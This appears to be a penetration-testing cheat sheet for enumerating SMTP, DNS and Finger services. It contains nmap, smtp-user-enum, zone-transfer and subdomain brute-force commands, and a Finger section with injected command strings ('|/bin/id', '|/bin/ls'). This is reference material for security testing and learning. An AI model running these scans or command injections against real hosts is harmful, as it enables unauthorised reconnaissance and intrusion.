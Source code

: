 ### SMTP (25/tcp)

```text
# Version detection + NSE scripts
nmap -Pn -sV -p 25 "--script=banner,(smtp* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN tcp_25_smtp_nmap.txt $ip
```

[smtp-user-enum](https://pypi.org/project/smtp-user-enum)

```text
/home/kali/.local/bin/smtp-user-enum -V -m RCPT -w -f '<user@example.com>' -d 'domain.local' -U "/usr/share/metasploit-framework/data/wordlists/unix_users.txt" $ip 25 2>&1 | tee "tcp_25_smtp_user-enum.txt"
```

### DNS (53/tcp, 53/udp)

```text
# Version detection + NSE scripts
sudo nmap -Pn -sU -sV -p 53 "--script=banner,(dns* or ssl*) and not (brute or broadcast or dos or external or fuzzer)" -oN udp_53_dns_nmap.txt $ip
```

```text
# Perform zone transfer (only works over port 53/tcp)
dig axfr @$ip $domain 2>&1 | tee "tcp_53_dns_dig.txt"

# Perform reverse DNS lookup (may display NS record containing domain name)
nslookup $ip $ip

# Brute force subdomains
gobuster dns -d $domain -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 16 -o "tcp_53_dns_gobuster.txt"
```

**Zone Transfer**

```text
dnsrecon -d <DOMAIN> -a
dig axfr <DOMAIN> @ns1.test.com
```

### Finger (79/tcp)

Run `auxiliary/scanner/finger/finger_users` metasploit module or run [this](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum) script.

**User enumeration**

```text
finger @<IP>
finger <USER>@<IP>
```
  
**Command execution**
  
```text
finger "|/bin/id@<IP>"
finger "|/bin/ls -a /<IP>"
```
